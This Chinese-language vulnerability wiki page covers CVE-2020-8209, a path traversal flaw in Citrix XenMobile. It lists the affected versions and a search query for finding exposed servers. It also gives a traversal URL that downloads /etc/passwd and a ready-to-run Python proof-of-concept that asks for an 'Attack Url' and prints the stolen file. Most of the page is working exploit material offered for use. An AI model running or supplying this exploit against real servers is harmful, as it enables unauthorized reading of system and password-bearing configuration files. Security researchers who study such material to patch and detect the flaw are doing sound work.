 # 

# Citrix XenMobile 任意文件读取 CVE-2020-8209

## 漏洞描述

XenMobile是Citrix开发的企业移动性管理软件。该产品允许企业管理员工的移动设备和移动应用程序。该软件的目的是通过允许员工安全地在企业拥有的和个人移动设备及应用程序上工作来提高生产率。 CVE-2020-8209，路径遍历漏洞。此漏洞允许未经授权的用户读取任意文件，包括包含密码的配置文件

## 漏洞影响

```
RP2之前的XenMobile服务器10.12
RP4之前的XenMobile服务器10.11
RP6之前的XenMobile服务器10.1010.9
RP5之前的XenMobile服务器
```

## 网络测绘

```
title="XenMobile"
```

## 漏洞复现

访问 [**http://xxx.xxx.xxx.xxx/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd**](http://xxx.xxx.xxx.xxx/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd) 可以成功下载**/etc/passwd**文件

![](./images/202202102005303.png)



## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import hashlib
import sys
import requests
import random
import re
import urllib3

def title():
    print('+------------------------------------------')
    print('+  \033[34mVersion: Citrix XenMobile                                          \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-8209.py                                  \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 含有CVE-2020-8209漏洞，成功读取/etc/passwd\033[0m\n{} ".format(response.text))
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >		>> \033[0m"))
    POC_1(target_url)
```

